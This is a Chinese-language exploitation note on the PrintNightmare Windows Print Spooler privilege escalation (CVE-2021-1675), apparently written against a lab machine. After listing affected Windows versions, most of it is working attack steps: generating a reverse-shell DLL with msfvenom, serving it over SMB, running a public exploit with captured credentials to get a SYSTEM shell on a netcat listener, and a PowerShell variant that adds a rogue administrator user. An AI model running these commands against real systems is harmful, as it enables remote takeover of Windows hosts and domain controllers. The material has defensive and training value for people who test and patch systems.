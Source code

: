 # Windows Print Spooler权限提升漏洞

Print Spooler是打印后台处理服务，即管理所有本地和⽹络打印队列及控制所有打印⼯作。该服务对应的进程以System权限执行，其设计存在一个鉴权代码缺陷，导致普通用户可以通过RPC触发RpcAddPrinterDriver绕过安全检查写入恶意驱动程序。如果域控存在此漏洞，域中普通用户即可通过远程连接域控的Print Spooler服务，向域控添加恶意驱动，从来控制整个域环境。



**影响版本：**

```
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2012
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core
installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core
installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core
installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows RT 8.1
Windows 8.1 for x64-based systems
Windows 8.1 for 32-bit systems
Windows 7 for x64-based Systems Service Pack 1
Windows 7 for 32-bit Systems Service Pack 1
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows 10 Version 21H2 for x64-based Systems
Windows 10 Version 21H2 for ARM64-based Systems
Windows 10 Version 21H2 for 32-bit Systems
Windows 11 for ARM64-based Systems
Windows 11 for x64-based Systems
Windows Server, version 20H2 (Server Core Installation)
Windows 10 Version 20H2 for ARM64-based Systems
Windows 10 Version 20H2 for 32-bit Systems
Windows 10 Version 20H2 for x64-based Systems
Windows Server 2022 Azure Edition Core Hotpatch
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows 10 Version 21H1 for 32-bit Systems
Windows 10 Version 21H1 for ARM64-based Systems
Windows 10 Version 21H1 for x64-based Systems
Windows 10 Version 1909 for ARM64-based Systems
Windows 10 Version 1909 for x64-based Systems
Windows 10 Version 1909 for 32-bit Systems
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 1809 for ARM64-based Systems
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
```



参考https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html

利用成功的三个先决条件：

1. 在目标系统上启用打印后台处理程序服务
2. 与目标系统的网络连接（已获得初始访问权限）
3. 低权限用户（或计算机）帐户的哈希值或密码

攻击方式1(使用https://github.com/cube0x0/CVE-2021-1675)：

首先检查目标是否开启MS-RPRN：

```shell
python3.10 rpcdump.py @10.10.10.237|grep "MS-RPRN"
Protocol: [MS-RPRN]: Print System Remote Protocol
```

如果开启了说明可能存在漏洞，拿msf生成一个反弹shell的dll：

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=39502 -f dll > msf-reverse-shell-39502.dll
```

启动一个smb服务：

```shell
cp ~/many-ctf/Ma\!/msf-reverse-shell-39502.dll ./share
python3.10 smbserver.py share ./share

#进行攻击
python3.10 CVE-2021-1675.py atom/jason:'kidvscat_electron_@123'@10.10.10.237 '\\10.10.14.14\share\msf-reverse-shell-39502.dll'

[*] Connecting to ncacn_np:10.10.10.237[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\WINDOWS\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.14.14\share\msf-reverse-shell-39502.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
Traceback (most recent call last):
```

虽然攻击脚本那边会报错，但是nc这边成功拿到shell：

```shell
nc -lv 39502
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```



攻击方式2（使用https://github.com/calebstewart/CVE-2021-1675）：

```shell
upload CVE-2021-1675.ps1
Import-Module .\CVE-2021-1675.ps1

#在Administrators组中创建一个feng用户。
Invoke-Nightmare -NewUser "feng" -NewPassword "fengfeng123!!!"
```


